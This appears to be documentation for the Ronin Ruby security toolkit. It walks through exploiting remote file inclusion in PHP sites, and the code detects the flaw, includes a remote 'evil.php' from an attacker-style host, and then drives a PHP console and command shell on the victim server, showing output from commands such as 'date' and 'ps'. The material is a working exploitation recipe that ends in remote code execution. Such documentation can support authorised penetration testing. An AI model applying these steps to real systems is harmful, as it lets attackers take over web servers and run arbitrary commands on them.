 ## Remote File Inclusion (RFI)

Test a URL for RFI:

{% highlight ruby %}
url = URL('http://www.example.com/page.php?layout=default')
url.has_rfi?
# => true
{% endhighlight %}

Obtain a [Ronin::PHP::RFI](/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

{% highlight ruby %}
rfi = url.first_rfi
{% endhighlight %}

Including a remote PHP file:

{% highlight ruby %}
rfi.include('http://www.shells4you.com/evil.php')
{% endhighlight %}

Using the Ronin PHP Remote Procedure Call (RPC) server:

{% highlight ruby %}
client = rfi.rpc
{% endhighlight %}

Using the PHP Console service to call PHP functions:

{% highlight ruby %}
php = client.console

php.phpversion
# => "4.3.10"

php.php_uname('-m')
# => "i686"
{% endhighlight %}

Using the PHP Shell service for quick command execution:

{% highlight ruby %}
shell = client.shell

shell.cwd
# => "/var/www/site/\n"

shell.cd '..'
# => ""

shell.exec('date -u')
# => "Thu Aug 21 10:29:38 UTC 2008\n"

shell.system('ps')
#    PID TTY          TIME CMD
#  27042 pts/8    00:00:00 bash